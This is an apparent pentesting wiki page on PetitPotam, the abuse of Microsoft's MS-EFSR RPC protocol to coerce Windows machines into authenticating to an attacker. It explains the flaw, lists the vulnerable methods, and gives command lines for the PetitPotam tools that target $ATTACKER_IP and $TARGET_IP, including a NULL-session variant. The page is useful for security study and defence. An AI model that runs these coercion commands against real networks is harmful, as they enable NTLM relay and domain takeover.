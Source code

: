 # MS-EFSR abuse (PetitPotam)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-efsr)) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Lionel GILLES](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication. **The coerced authentications are made over SMB**. But MS-EFSR abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The following MS-EFSR's methods were detected vulnerable

* `EfsRpcOpenFileRaw` and `EfsRpcEncryptFileSrv` ([partially patched by Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))
* `EfsRpcEncryptFileSrv`, `EfsRpcDecryptFileSrv`, `EfsRpcQueryUsersOnFile`, `EfsRpcQueryRecoveryAgents`, `EfsRpcRemoveUsersFromFile`, `EfsRpcAddUsersToFile`, `EfsRpcFileKeyInfo`, `EfsRpcDuplicateEncryptionInfoFile`, `EfsRpcAddUsersToFileEx` (unpatched at the time of this article update, 29th December 2021)

## Practice

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" (available in C and Python) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

An alternative Python implementation ([https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)) can be used to exploit other unpatched methods that the original implementation doesn't feature.

```bash
petitpotam.py -method AddUsersToFile $TARGET_IP '\\$ATTACKER_IP\share\foo'
```

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilities of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse (printbug)](ms-rprn.md), a NULL session could potentially be used to trigger that bug (if allowed by the target). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py $ATTACKER_IP $TARGET_IP
```
{% endhint %}

{% hint style="success" %}
For the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can be required, especially if the target is patched against MS-EFSR abuse (which doesn't completely mitigate the vulnerability). In both tools mentioned above, this is enabled by default only on topotam's one.
{% endhint %}

## Resources

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://github.com/ly4k/PetitPotam" %}
&#x20;
{% endembed %}

{% embed url="https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc" %}
Understand RPC better
{% endembed %}
